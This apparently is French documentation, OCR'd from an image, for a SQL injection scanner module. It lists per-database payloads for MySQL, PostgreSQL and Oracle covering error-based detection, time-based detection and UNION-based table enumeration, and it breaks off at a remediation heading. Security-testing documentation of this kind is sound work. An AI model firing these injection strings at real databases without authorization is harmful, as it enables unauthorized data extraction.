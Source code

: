 ## Payloads par DBMS

Le module inclut des payloads spécifiques pour chaque système de base de données supporté.

### MySQL

```sql
-- Détection par erreur
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT VERSION()),0x7e)) AND '
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND '

-- Détection par temps
' AND IF(VERSION() LIKE '5%', SLEEP(3), 0) AND '

-- Énumération de tables
' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE() -- 
```

### PostgreSQL

```sql
-- Détection par erreur
' AND (SELECT current_database()) IS NOT NULL AND '
' AND CAST((SELECT version()) as int) AND '

-- Détection par temps
' AND (SELECT pg_sleep(3)) AND '

-- Énumération de tables
' UNION SELECT string_agg(table_name, ',') FROM information_schema.tables WHERE table_schema='public' -- 
```

### Oracle

```sql
-- Détection par erreur
' AND CTXSYS.DRITHSX.SN(1,(SELECT banner FROM v$version WHERE ROWNUM=1)) AND '

-- Détection par temps
' AND DBMS_PIPE.RECEIVE_MESSAGE(('a'),3) AND '

-- Énumération de tables
' UNION SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) FROM user_tables -- 
```

## Bonnes pratiques de correction

Le rapport inclut des recommandations de correction spécifiques :
